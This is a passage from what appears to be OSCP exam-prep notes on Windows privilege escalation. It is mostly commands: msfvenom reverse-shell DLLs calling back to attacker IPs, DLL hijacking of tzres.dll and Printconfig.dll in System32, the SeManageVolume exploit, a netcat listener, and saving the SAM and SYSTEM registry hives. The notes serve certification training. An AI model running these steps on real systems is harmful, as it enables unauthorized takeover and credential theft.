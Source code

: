![image](https://github.com/kullaisec/OSCP/assets/99985908/5353660e-bd36-4d2c-a2af-76c2a3b0dd06)

Now navigate to `C:\Windows\System32\wbem` now we have to replace the `.dll` file !!

```powershell
# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.193 LPORT=6666 -f dll -o tzres.dll
```
After successfully replacing Just type `systeminfo` and listen on port 6666 you will get elevated shell !!

#### Medthod 2

Another Method PrivEsc:

https://github.com/CsEnox/SeManageVolumeExploit → read this !!
```powershell
PS C:\xampp\htdocs\uploads> .\SeManageVolumeExploit.exe
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/22cd4f93-8387-4313-85f0-53129ef97bee)

```bash
# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=6666 -f dll -o Printconfig.dll
```

We need to replace the file : `C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll`

```powershell
PS C:\xampp\htdocs\uploads> Copy-Item -Path "C:\xampp\htdocs\uploads\Printconfig.dll" -Destination "C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll" -Force
```

and Listen on `6666`
```bash
# rlwrap -cAr nc -lvnp 6666
```
Enter the following commands :

```powershell
PS C:\xampp\htdocs\uploads> $type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")

PS C:\xampp\htdocs\uploads> $object = [Activator]::CreateInstance($type)
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/a22879da-2099-4290-8359-a96a38fc4f12)

you can see we got the adminsitrator access !!

### SeBackupPrivilege

Reference: https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

```powershell
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
